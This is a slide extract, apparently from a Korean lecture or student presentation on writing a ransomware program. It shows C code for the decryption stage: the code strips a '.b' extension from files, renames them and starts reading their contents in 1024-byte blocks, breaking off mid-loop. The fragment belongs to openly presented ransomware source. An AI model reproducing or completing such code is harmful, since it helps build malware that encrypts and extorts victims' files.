

02 랜섬웨어 프로그램
-#2 복호화 프로그램
#2-2 확장자명 바꾸기-복호화
 if (strstr(filename, ".b") != 0)   // 파일네임이 .b이면
   {
      filenewname = aa(filefname);   // .b 삭제하는 함수 실행
      rename(fileoldname, filenewname);   // 파일명을 바꿔서 저장 -> rename 함수 봐야할듯
   }
   else           // 파일네임이 .b가 아니면
      filenewname = filefullname;      // 뉴네임에 풀네임 그대로 넣음

   fp = fopen(filenewname, "r+b");   // 파일스트림 filenewname을 바이트로 읽는 스트림 연결

   if (fp == NULL)   // 오류나면
   {
      if (strstr(filename, ".") == 0)   // filename에 . 이 없으면
         findfile(filefullname);   //   파일 찾고
      return -1;               // 프로그램 종료
   }
   if (strstr(filename, ".b") != NULL)   // filename에 .b 가 있으면
   {
      while (!feof(fp))   // 파일포인터가 끝날때까지 돌아라
      {
         fwpos = ftell(fp);   // 파일포인터의 현재위치를 fwpos에 저장
         read_size = fread(data, 1, 1024, fp);
         // datd에 1크기를 1024번 fp스트림에서 읽음.
         // 읽어들인 원소의 개수만큼 리턴
         if (read_size == 0)break; // 하나도 못읽으면 반복문 종료